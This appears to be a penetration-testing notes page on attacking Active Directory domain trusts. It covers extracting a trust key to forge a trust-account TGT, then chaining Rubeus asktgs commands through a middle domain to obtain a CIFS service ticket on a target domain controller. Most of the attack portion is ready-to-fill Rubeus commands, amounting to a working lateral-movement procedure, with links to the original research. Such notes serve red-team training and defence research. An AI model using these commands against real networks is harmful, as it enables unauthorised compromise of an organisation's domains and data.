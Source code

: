 ### Trusting to Trusted - Trust Key

On production-dc begin by extracting the trust key \[out] for target dc. We can also use any of the  tools / methods to extract trust keys.

Use the trust key to get a usable TGT as a Domain User (Trust account $) in the target domain domain using Rubeus.

Finally, access a resource in thetarget domain domain abusing Domain User rights.

### Trust Transitivity

First request a TGT for the middle domain

{% code overflow="wrap" %}
```powershell
./Rubeus.exe asktgs /service:krbtgt/<$Middle domain> /dc:<$Controlled dc>  /nowrap /ticket:<$Ticket of the controlled domain administrator>
```
{% endcode %}

Now use the above referral TGT to gain a “local” TGT for the middle domain

{% code overflow="wrap" %}
```powershell
./Rubeus.exe asktgs /service:krbtgt/<$Middle domain> /dc:<$Middle DC> /targetdomain:<$MiddleDomain> /nowrap /ticket:<$referral TGT from above> 
```
{% endcode %}

Using the “local” TGT now request another referral TGT for target domain

{% code overflow="wrap" %}
```powershell
./Rubeus.exe asktgs /service:krbtgt/<$Target Domain> /dc:<$Middle DC> /targetdomain:<$Middle Domain> /nowrap /ticket:<“local” TGT> 
```
{% endcode %}

Finally, request a usable TGS to gain access onto any target service (CIFS in this case)

{% code overflow="wrap" %}
```powershell
./Rubeus.exe asktgs /service:cifs/<$Target DC> /dc:<$Target DC> /nowrap /ptt /ticket:<referral TGT from above>
```
{% endcode %}

## References

{% embed url="https://blog.improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted" %}

{% embed url="https://exploit.ph/external-trusts-are-evil.html" %}
